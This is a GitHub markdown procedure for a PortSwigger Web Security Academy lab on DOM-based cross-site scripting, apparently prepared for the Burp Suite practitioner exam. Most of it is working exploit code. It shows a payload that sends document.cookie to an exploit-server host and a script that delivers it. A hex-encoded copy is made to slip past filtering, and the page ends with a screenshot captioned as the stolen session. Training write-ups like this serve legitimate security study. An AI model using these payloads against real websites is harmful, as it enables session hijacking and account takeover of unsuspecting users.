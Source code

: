 ## XSS-DOM-Procedure

## Check your session cookie:
```js
"-(window["document"]["location"]="/?"+window["document"]["cookie"])-"
```

## TEST Payload:
```js
burpdomxss","test":alert(window["document"]["cookie"])}//
```

## The Exploit before preparing:
```js
<script>
location='https://<CHANGE-HERE>.web-security-academy.net/?SearchTerm="-(window["document"]["location"]="https://exploit-<CHANGE-HERE>%2eexploit-server%2enet/?"+window["document"]["cookie"])-"';
</script>
```

## Before ENCODE the exploit by using BurpSuite Decoder:
```js
"-(window["document"]["location"]="https://exploit-0af4008003a936d2c1563c1001a30084%2eexploit-server%2enet/?"+window["document"]["cookie"])-"
```
## ENCODE the exploit:
![](https://github.com/nu11secur1ty/PortSwigger-Web-Security-Academy/blob/main/Burp-Suite-Certified-Practitioner/docs/XSS-DOM-Procedure/Encode.png)

## THE ACTUAL EXPLOIT:
```js
<script>
location='https://0a3200d2032c36d2c1163a22005f00df.web-security-academy.net/?SearchTerm=%22%2d%28%77%69%6e%64%6f%77%5b%22%64%6f%63%75%6d%65%6e%74%22%5d%5b%22%6c%6f%63%61%74%69%6f%6e%22%5d%3d%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%66%34%30%30%38%30%30%33%61%39%33%36%64%32%63%31%35%36%33%63%31%30%30%31%61%33%30%30%38%34%25%32%65%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%25%32%65%6e%65%74%2f%3f%22%2b%77%69%6e%64%6f%77%5b%22%64%6f%63%75%6d%65%6e%74%22%5d%5b%22%63%6f%6f%6b%69%65%22%5d%29%2d%22';
</script>
```
## The stolen session:
![](https://github.com/nu11secur1ty/PortSwigger-Web-Security-Academy/blob/main/Burp-Suite-Certified-Practitioner/docs/XSS-DOM-Procedure/XSS-Payload.png)
